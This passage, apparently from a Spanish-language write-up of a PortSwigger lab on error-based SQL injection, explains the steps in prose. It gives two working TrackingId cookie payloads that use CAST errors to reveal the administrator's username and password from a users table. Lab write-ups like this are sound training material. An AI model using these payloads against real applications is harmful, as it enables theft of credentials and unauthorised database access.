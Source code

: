 ![](/assets/img/ps-writeup-sqli/ps-lab13_9.png)

Usando `LIMIT 1`, se obtiene el primer registro. El error ahora muestra el valor de `username`. La aplicación intenta convertir el texto `administrator` a un entero, lo que genera un error visible revelando el valor `administrator`.

```sql
TrackingId=' and 1=cast((select username from users limit 1) as int)--
```

![](/assets/img/ps-writeup-sqli/ps-lab13_10.png)

Nuevamente, el error ocurre porque la contraseña no puede convertirse a un entero.

```sql
TrackingId=' and 1=cast((select password from users limit 1) as int)--
```

![](/assets/img/ps-writeup-sqli/ps-lab13_11.png)
